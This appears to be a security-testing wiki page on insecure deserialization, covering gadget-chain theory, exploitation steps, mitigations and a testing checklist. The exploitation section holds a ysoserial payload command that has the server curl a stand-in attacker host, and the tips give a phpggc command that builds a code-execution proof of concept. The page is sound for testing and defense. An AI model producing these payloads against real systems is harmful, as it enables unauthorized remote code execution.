


# Insecure Deserialization

Exploit unsafe object deserialization in web applications.

## Overview Diagram

Visual summary of the **attack/data flow** and the **five-phase testing workflow** for this topic.

### Attack / Data Flow

<div class="sr-diagram" markdown="1">



</div>

### Testing Workflow

<div class="sr-diagram sr-diagram-methodology" markdown="1">



</div>

## How It Works

Insecure deserialization restores attacker-controlled byte streams or text into runtime objects. If the application trusts serialized data from cookies, hidden fields, message queues, or APIs, gadget chains in the language runtime can lead to arbitrary code execution.

**Java**: `ObjectInputStream.readObject()` with commons-collections gadgets (ysoserial).

**PHP**: `unserialize()` on user cookies enabling property-oriented programming.

**.NET**: `BinaryFormatter`, `Json.NET TypeNameHandling.All`.

**Python**: `pickle.loads()` is never safe on untrusted input.

The vulnerability is not merely parsing JSON—it's **type resurrection** and **gadget invocation** where magic methods (`__reduce__`, `readObject`) chain into dangerous sinks (exec, file write, JNDI lookup).

Serialized blobs often appear Base64-encoded in cookies (`rO0AB...` Java, `O:8:"stdClass"` PHP).

## Exploitation

**Identification**

1. Capture cookies, POST bodies, and WebSocket messages with magic signatures.
2. Decode Base64 and inspect for Java serialization headers (`ac ed 00 05`), PHP `O:` prefixes.

**Java gadget generation**

```bash
ysoserial.jar CommonsCollections6 'curl attacker.com/pwned' | base64
```

Replace session cookie or API field with malicious payload; trigger deserialization on next request.

**PHP example**

Manipulate object properties in serialized session to change `role` from `user` to `admin` when app compares object fields without re-validation.

**Attack flow**

```
Tampered serialized object → server deserializes → gadget chain executes → RCE or privilege escalation
```

**Blind cases**

- Out-of-band DNS/HTTP from JNDI injection chains (Log4Shell class of issues)
- Time-delay gadgets for confirmation

**Tools**: ysoserial, phpggc, Burp Java Deserialization Scanner

## Defense & Mitigation

**Do not deserialize untrusted data**. Use JSON with schema validation and plain data types—never pick `TypeNameHandling.All` or Java polymorphic default typing without safeguards.

**Hardening when serialization is required**

- Java: `ObjectInputFilter`, allow-list classes, avoid dangerous libraries on classpath.
- .NET: Replace `BinaryFormatter`; use `System.Text.Json` without type names.
- Python: Never `pickle` from users; use JSON/msgpack with validation.

**Integrity**

- Sign encrypted tokens (HMAC) so tampering is detected before parse.
- Short-lived session blobs stored server-side instead of client-side serialized state.

**Dependency hygiene**

- Remove unused gadget libraries (commons-collections old versions).
- Monitor for known CVEs in serialization stacks.

**Detection**

- WAF rules for Java serialization magic bytes in cookies.
- EDR alerts on child processes spawned from app servers after cookie updates.

## Pro Tips

Practical advice from real engagements — use these to test faster and report better.

!!! tip "Cookie and viewstate"
    Java `.ser`, PHP `O:`, .NET `AAEAAAD` in cookies — decode first byte.

!!! tip "ysoserial gadget chains"
    Match library versions exactly — CommonsCollections gadgets vary by JDK.

!!! tip "phpggc for PHP"
    `./phpggc -l` lists chains; `./phpggc Laravel/RCE1 system id` for quick PoC.

!!! tip "JSON type confusion"
    Some APIs deserialize JSON to objects unsafely — test `__type` or `@class` fields.

!!! warning "Never test prod RCE"
    Deserialize RCE PoCs belong in isolated VMs matching target versions only.

## Testing Methodology

Work through each phase in order. Every step has a checkbox — complete them all for thorough, reproducible coverage.

### Phase 1 — Preparation & Scoping

- [ ] Confirm target is in program scope and ROE allows this test type
- [ ] Set up isolated lab or proxy (Burp/ZAP) with scope filters
- [ ] Document baseline application behavior and account roles
- [ ] Identify test accounts for each privilege level
- [ ] Identify serialization format: Java, PHP, .NET, Python pickle, Ruby

### Phase 2 — Discovery & Mapping

- [ ] Find cookies, hidden fields, or API bodies with encoded blobs
- [ ] Decode base64 and inspect magic bytes or format markers
- [ ] Search source/repos for `ObjectInputStream`, `unserialize`, `BinaryFormatter`
- [ ] Map gadget chains available for detected libraries

### Phase 3 — Validation & Testing

- [ ] Replace serialized object with known gadget payload (ysoserial/phpggc)
- [ ] Confirm behavior change or callback from malicious object
- [ ] Test type confusion and signing bypass on tokens
- [ ] Validate in isolated JVM/PHP version matching target

### Phase 4 — Exploitation & Impact Proof

- [ ] Achieve RCE or auth bypass with minimal gadget chain
- [ ] Document library versions enabling the chain
- [ ] Do not deploy persistent backdoors
- [ ] Capture generated payload and server response

### Phase 5 — Documentation & Reporting

- [ ] Write step-by-step reproduction with HTTP requests/responses
- [ ] Capture screenshots or video showing impact (redact sensitive data)
- [ ] Rate severity using program CVSS or impact matrix
- [ ] Provide concrete remediation guidance for developers
- [ ] Retest after fix if program allows verification
- [ ] Recommend avoiding native deserialization of untrusted data

## Tools

| Tool | Usage |
|------|-------|
| `ysoserial` | [Java deserialization payloads](../../TOOLS_GUIDE.md#ysoserial) |
| `phpggc` | [PHP deserialization payloads](../../TOOLS_GUIDE.md#phpggc) |
| `burp` | [Intercept, repeater & scanner](../../TOOLS_GUIDE.md#burp-suite) |

## Resources

- [OWASP Deserialization](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/16-Testing_for_HTTP_Insecure_Deserialization)

## Verification Checklist

- [ ] Review scope and rules of engagement
- [ ] Document baseline behavior
- [ ] Test edge cases and parser differentials
- [ ] Capture proof-of-concept safely
- [ ] Write remediation guidance
